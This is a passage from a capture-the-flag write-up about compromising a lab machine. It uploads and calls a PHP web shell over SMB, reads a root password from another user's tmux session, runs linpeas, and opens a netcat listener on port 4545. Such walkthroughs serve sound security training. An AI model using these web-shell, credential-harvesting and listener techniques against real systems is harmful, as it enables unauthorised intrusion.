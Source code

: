 ```terminal
  ..                                  D        0  Thu Mar 11 13:52:29 2021
  note.txt                            A       45  Thu Mar 11 13:19:52 2021
  shell.php                           A     3650  Sun Mar 26 14:30:14 2023

                7743660 blocks of size 1024. 4479264 blocks available
smb: \> 

```

Now we request the shell at `http://10.10.182.56:8080/dev/shell.php`

![](6.png)

We see use `marston` has multiple tmux windows, one of them is logged on as root with the password `zzzzzzzzzzzzzzzzzzzzzzzz`.

We can switch to user `ArthurMorgan` using his original password.

# **Privilege Escalation**

Running linpeas we see ssh listening on localhost.

![](7.png)

Checking environment variable we find the following:

```terminal
[...]
OPEN_PORT=4545
[...]
```

By listening on that port, we get this:

```terminal
ArthurMorgan@incognito:~$ nc -lvnp 4545                                                                                                                       
Listening on [0.0.0.0] (family 0, port 4545)                                                                                                                  
Connection from 127.0.0.1 52606 received!                                                                                                                     
                                                                                                                                                              
                                                                                                                                                              
ideaBox                                                                                                                                                       
1.Write                                                                                                                                                       
2.Delete                                                                                                                                                      
3.Steal others' Trash                                                                                                                                         
4.Show'nExit         
```
